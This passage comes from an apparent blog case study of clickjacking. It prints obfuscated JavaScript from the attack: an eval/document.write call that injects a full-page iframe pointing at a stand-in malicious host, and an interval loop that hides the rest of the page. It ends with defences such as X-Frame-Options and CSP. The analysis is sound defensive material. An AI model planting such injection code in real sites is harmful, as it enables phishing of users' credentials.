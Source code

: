 Otherwise, the iframe is injected into the page directly by calling the `eval()` function. The code it evaluates is broken up in such a way to avoid any detection. However, it is quite easy to spot just by looking at it.

```js
var ss = '<center id="importantDiv"><ifr' + 'ame scrolling="no" marginheight=0 marginwidth=0  frameborder="0" width="100%" width="14' + '00" height="108' + '88" src="http://www.maliciouspage.com"></iframe></center>';
eval("do" + "cu" + "ment.wr" + "ite('" + ss + "');");
```

Finally, an interval function is executed to hide all elements except the iframe every 100ms.

```js
try {
  setInterval(function() {
    try {
      document.getElementById("div" + "All").style.display = "no" + "ne"
    } catch (e) {}
    for (var i = 0; i < document.body.children.length; i++) {
      try {
        var tagname = document.body.children[i].tagName;
        var myid = document.body.children[i].id;
        if (myid != "iconDiv1" && myid != "importantDiv") {
          document.body.children[i].style.display = "non" + "e"
        }
      } catch (e) {}
    }
  }, 100)
} catch (e) {}
```

On the surface, this attack doesn't seem too complicated to understand. However, it can be used mislead users to hand over sensitive information in a legitimate-looking website. Also, this can be especially lethal when the website loaded in the iframe uses HTTP (which only works if the parent page is also HTTP).

I created a quick [example](https://codepen.io/spiderpig86/pen/JjGBbXQ) on Codepen to demonstrate how it works. In this example, a "malicious" sign up page is presented to you after loading some websites requiring social media credentials.

## Conclusion/Prevention

In short, Clickjacking is a commonly used tactic attackers use to mislead users into performing actions they are not aware of. Now, this attack doesn't use sophisticated tactics to break into some system, however, it is still quite effective along with other tactics that involve the human condition, such as phishing.

![Hackerman](https://github.com/Spiderpig86/blog/blob/master/images/Clickjacking%20Using%20Iframes%20A%20Case%20Study/What_people_think_programming_is_vs._how_it_actually_is.gif?raw=true)

For any website maintainer, a couple of ways to defend against this attack is:

1. Set the correct `X-Frame-Options` to disallow any access to your page from other domains. For a more up to date solution, use a Content Security Policy (CSP) to disallow any frame to load content from other domains of origin.
2. Ensure that the main page itself is always the top-level frame.

